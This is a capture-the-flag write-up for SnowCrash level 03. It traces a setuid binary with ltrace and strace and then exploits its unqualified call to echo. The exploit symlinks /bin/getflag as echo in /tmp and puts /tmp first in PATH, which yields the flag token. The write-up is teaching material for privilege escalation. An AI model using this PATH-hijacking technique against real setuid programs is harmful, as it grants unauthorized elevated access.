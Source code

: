 ## Level 03


## Clues

We have an executable, named level03.


Lets check his permission :

```
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$
```

We can see that this executable have the 's' permission, that's not common.

After some research, we discover that this is actually the "setuid" bit, which tells the OS to execute the program with the userid of its owner.

So that mean that if we execute level03, it would execute it like we were flag03.

Lets see what that program outputs :

```
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$ ./level03 lorem 42 things
Exploit me
level03@SnowCrash:~$
```

Only "Exploit me" is printed, even with arguments.

## Solution 

Since the program tell us to exploit it, we are going to exploit it, using the powerfull **strace** and **ltrace**.

strace is a program that show us every system calls that another program uses.

ltrace is the same, but show us every library calls of a program.

Both of those also show us the content of the parameter of the calls which is really helpfull.

Using ltrace on ./level03
```
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                 = 2003
geteuid()                                                                 = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                       = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                       = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                    = 0
+++ exited (status 0) +++
```
There is only one line that is interesting, the "system" call, we see that this programm call echo to print out the "Exploit me"



Using strace on ./level03
```
execve("./level03", ["./level03"], [/* 18 vars */]) = 0
brk(0)                                  = 0x804b000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7fdb000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
...
...
...
clone(child_stack=0, flags=CLONE_PARENT_SETTID|SIGCHLD, parent_tidptr=0xbffff70c) = 2416
waitpid(2416, Exploit me
[{WIFEXITED(s) && WEXITSTATUS(s) == 0}], 0) = 2416
```

Nothing interesting, but we see that this program use the "clone" syscall, which create another thread, lets see what those thread also do :

```
...
...
...
[pid  2430] execve("/usr/local/sbin/echo", ["echo", "Exploit", "me"], [/* 18 vars */]) = -1 ENOENT (No such file or directory)
[pid  2430] execve("/usr/local/bin/echo", ["echo", "Exploit", "me"], [/* 18 vars */]) = -1 ENOENT (No such file or directory)
[pid  2430] execve("/usr/sbin/echo", ["echo", "Exploit", "me"], [/* 18 vars */]) = -1 ENOENT (No such file or directory)
[pid  2430] execve("/usr/bin/echo", ["echo", "Exploit", "me"], [/* 18 vars */]) = -1 ENOENT (No such file or directory)
[pid  2430] execve("/sbin/echo", ["echo", "Exploit", "me"], [/* 18 vars */]) = -1 ENOENT (No such file or directory)
[pid  2430] execve("/bin/echo", ["echo", "Exploit", "me"], [/* 18 vars */]) = 0
...
...
...

```

If you tried to wrote a shell, you would immediatly undurstand what's going on.

The program first execute ***echo "Exploit me"***, which is a library call.

When you type a command in a shell prompt, the shell will look for every path in your environnement, in order to find your command and execute it.

And that's exacly the same behavior, the shell tried every path, and found an occurence on /bin/echo, and succeeded.


**This mean that if we change the path of our environnement, it would change the behavior of the program, lets crack it !**

The strategy here is to create a symbolic link of "/bin/getflag" into echo.

And then give the path of that symbolic link in our environnement, which will be searched by the shell and be executed by the program ./level03.


We move to /tmp, because we cant touch any file in the home directory.
```
level03@SnowCrash:~$ cd /tmp
level03@SnowCrash:/tmp$ ln -s /bin/getflag echo
```

Then we give the path of /tmp in the env

```
level03@SnowCrash:~$ export PATH="/tmp/:$PATH"
level03@SnowCrash:~$ echo $PATH
/tmp/:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
level03@SnowCrash:~$
```

If everything is correcly set, by calling ./level03, the program will try execute echo in every path of our environnement, and will execute ```/tmp/echo``` which is our symbolic link.


```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$
```

And here we go, isn't that cool ?


## What i learned

Shell breach.

Reverse engineering (Using strace and ltrace).

Protection to code injection.